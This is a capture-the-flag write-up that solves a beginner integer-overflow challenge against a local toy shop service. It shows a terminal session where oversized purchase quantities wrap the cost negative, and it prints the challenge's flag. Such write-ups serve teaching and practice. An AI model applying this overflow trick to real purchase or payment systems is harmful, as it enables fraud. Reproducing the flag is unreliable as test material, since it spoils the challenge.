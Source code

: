 # Solution
This challenge is a simple IOF(Integer overflow) challenge. you dont really need to be too precise for this challenge.

The idea is to
1. IOF the fake flags to make the cost negative to add to your money
2. Buy the real flag using the money obtained in part 1

*it is also technically possible to do that with just the real flag, which is faster! Do what floats your boat :wink:*

```
$ nc localhost 8080
Welcome to my shop, what would you like to buy?
+---------------------------------------------+
| 1) Fake flag -    20g                       |
| 2) Real flag - 99999g                       |
| q) Exit Shop -     0g (That'll be cruel...) |
+---------------------------------------------+
Money: 100
1
How many do you want?
4380178787
Oops, you have not enough money!
You need 1704229820g!
+---------------------------------------------+
| 1) Fake flag -    20g                       |
| 2) Real flag - 99999g                       |
| q) Exit Shop -     0g (That'll be cruel...) |
+---------------------------------------------+
Money: 100
1
How many do you want?
843917395791
Purchased!
Thanks for shopping!
+---------------------------------------------+
| 1) Fake flag -    20g                       |
| 2) Real flag - 99999g                       |
| q) Exit Shop -     0g (That'll be cruel...) |
+---------------------------------------------+
Money: 873557560
2
How many do you want?
1
Purchased!
Heres your flag: CTF101{I0Fs_c4n_bE_Sn3Ak3y_47}

+---------------------------------------------+
| 1) Fake flag -    20g                       |
| 2) Real flag - 99999g                       |
| q) Exit Shop -     0g (That'll be cruel...) |
+---------------------------------------------+
Money: 873457561
^C
```
